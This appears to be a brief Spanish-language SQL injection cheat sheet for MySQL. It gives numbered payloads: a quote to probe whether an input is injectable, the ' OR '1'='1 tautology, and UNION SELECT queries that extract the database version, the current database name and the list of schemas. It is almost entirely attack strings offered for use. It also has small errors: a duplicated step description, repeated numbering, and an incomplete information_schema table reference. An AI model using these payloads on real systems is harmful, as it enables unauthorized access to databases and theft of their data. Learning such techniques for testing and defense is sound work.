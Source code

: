 1. Para identificar si una entrada es vulnerable,colocamos un comilla

```
'
```

2. Para identificar si una entrada es vulnerable,colocamos un comilla

```
' OR '1'='1
```

3. Obtener la version de la base de datos para saber si es de mysql

```
' UNION SELECT @@version, NULL; --

```

4. Obtener el nombre de la base de datos actual

```
' UNION SELECT database(), NULL; --
```

3.  Listar todas las bases de datos

```
' UNION SELECT schema_name, NULL FROM information_schema; --

```
